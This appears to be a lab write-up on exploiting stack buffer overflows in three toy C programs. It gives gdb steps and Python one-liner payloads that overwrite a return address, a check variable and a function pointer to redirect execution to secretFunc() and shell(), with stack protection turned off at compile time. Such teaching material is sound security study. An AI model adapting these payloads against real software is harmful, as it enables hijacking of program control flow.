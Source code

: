 # bof1.c  
In this attack, we aim to overwrite the return address with the address of a different function (redirect control)  


## Stackframe
![image](https://github.com/user-attachments/assets/9913a19d-83ac-4c8c-9cec-755bf2fc820c)


## Vulnerability  
At the function `gets(array);` the attacker can control the flow of execution by input larger than 200 bytes    


## Attack  
Compile file without stack protection  
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/303e297a-27f9-4b2e-8cb6-32dbc0df52a6)


Run gdb  
`gdb bof1.out`
![image](https://github.com/user-attachments/assets/98f15c46-056c-4148-ad6c-85b96eefae6c)


Disassemble the vuln function  
`disas vuln`  
![image](https://github.com/user-attachments/assets/46f661a8-3fca-4ea3-b963-3af801d59cd6)


Disassemble secretFunc  
`disas secretFunc`  
![image](https://github.com/user-attachments/assets/12485e26-6f6b-4cbd-bd57-d074811f5878)

The address of 'secretFunc' is 0x0804846b  

To attack, based on the stackframe we need 204 bytes   
To quit  
`q`  
To create 204 bytes by generate 204 characters 'a'  
`echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 123`
![image](https://github.com/user-attachments/assets/9bce4ca9-6a20-4c71-8a37-569512138885)


# bof2.c
To exploit `bof2.c`, we aim to overwrite the return address `vuln()` function and redirect the flow of execution to the `secretFunc()`  


## Stackframe
![image](https://github.com/user-attachments/assets/4601690d-a9f0-4230-a646-1266ed307407)


## Vulnerability
To overwrite the `check` variable, the attacker need to provide input that fills the 40-byte buffer and writes additional bytes to overwrite `check`  

## Attack
Compile the program without stack protection  
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`
![image](https://github.com/user-attachments/assets/e5982a17-89cd-48aa-8cd0-c958af4d9dc4)



Run gdb  
`gdb bof2.out`  
![image](https://github.com/user-attachments/assets/69fd4a19-e3db-4ecf-9507-bb940ed0280a)


Set a breakpoint at the `fgets` function  
`break fgets`  
![image](https://github.com/user-attachments/assets/a7c423ce-e804-49e9-b50b-2e9767f2ac51)


Run the program
`run`  
![image](https://github.com/user-attachments/assets/aafeed61-f26c-424c-a7ee-abf5e3916036)


To attack, based on the stackframe we need 44 bytes  
Quit `q`  
To create 44 bytes by generate 40 characters 'a' and 4 characters 'b'  `echo $(python -c "print('a' * 40 + 'b' * 4 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
![image](https://github.com/user-attachments/assets/b831c2aa-51d9-4ce1-ab5c-669d6e5961ce)


Manipulate the program's memory by overflowing a fixed-length buffer by generate 40 bytes `echo $(python -c "print('a' * 40 + '\xef\xbe\xad\xde')") | ./bof2.out 123`  
![image](https://github.com/user-attachments/assets/a895e807-c274-45ca-bc72-ffdda1f614ed)


# bof3.c
To exploit `bof3.c`, we overwrite the func function pointer in the program and make it point to the shell() function  


## Stackframe
![image](https://github.com/user-attachments/assets/9069c5c5-2637-407f-b966-432a3b483eb1)  


## Vulnerability
The vulnerability in bof3.c is a buffer overflow that allows an attacker to overwrite a function pointer (func) and redirect execution to arbitrary code, such as the shell() function.  


## Attack
Compile file without stack protection  
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/579e9cd5-e0b3-48f8-9bd2-9a32d31e90f3)  


Use gdb to find the address of the shell function: 0x0804845b  
`gdb -q bof3.out` then `disas shell`
![image](https://github.com/user-attachments/assets/eb21d3d1-0d95-4e5c-8149-2321886ec8d6)  


`q` then `objdump -d bof3.out | grep shell`  
Calculate how many bytes to inject to replace a function's return address with the shell function address `echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out`  
![image](https://github.com/user-attachments/assets/86ce9fca-98e5-47e5-8e37-aadbe9e72d85)


